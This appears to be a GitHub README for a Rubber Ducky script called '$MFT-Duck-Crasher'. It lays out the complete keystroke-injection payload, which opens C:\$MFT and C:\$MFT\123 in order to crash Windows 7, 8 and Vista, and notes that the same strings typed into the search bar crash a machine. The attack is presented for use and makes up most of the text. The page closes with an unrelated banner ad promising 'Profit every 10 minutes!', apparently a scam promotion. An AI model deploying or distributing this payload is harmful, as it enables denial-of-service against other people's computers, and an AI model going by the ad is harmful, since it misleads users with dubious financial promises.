 # -$MFT-Duck-Crasher
A Simple Script for Rubber Ducky which Exploits Windows $MFT Vulnerability. <br>
$MFT is used by NTFS systems to manage some metadata.
 This fallace has recently been discovered, which has not yet been closed. Works on windows 7, 8 and vista, dont work on windows 10. I think work on Xp and earlier.
This Script dont require any special firmware on the Rubber Ducky (TwinDuck Firmare etc.).
You can also use this two strings directly on the Windows SearchBar to crash a computer.
The system crash lasts until the machine is switched off, or until the blue screen of death appears;)

A system crash demonstration using the two strings with the following paths: c:\$MFT & c:\$MFT\123 
can be found here:
https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s

 <br/> 



<a href="https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s
" target="_blank"><img src="http://img.youtube.com/vi/vYL9UQRwUZc/0.jpg" 
alt="$MFT" width="600" height="450" border="100" /></a> 

<br/>

$MFT-Duck-Crasher Payload
<br/>
<br/>
REM works on w7 - w8 - Vista (and i think xp and earlier too)
<br/>
REM it uses a high delay to support even older computers
<br/>
DELAY 1000
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
REM the 2nd enter is to close the error
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>
DELAY 500
<br/>
CONTROL ESCAPE
<br/>
DELAY 500
<br/>
STRING C:\$MFT\123
<br/>
DELAY 500
<br/>
ENTER
<br/>
DELAY 700
<br/>
ENTER
<br/>


You can also find the following payload in the official Duck Toolkit page in the "UserScripts" section at this address
https://ducktoolkit.com/viewscript/592e3784ac04af22f889b7e4/




</BR>

<a href="https://golden-farm.biz/?r=1673249" target="_blank">
<img src="https://golden-farm.biz/images/promo/en/728x90.gif"
alt="Profit every 10 minutes!"></a>


                                                            
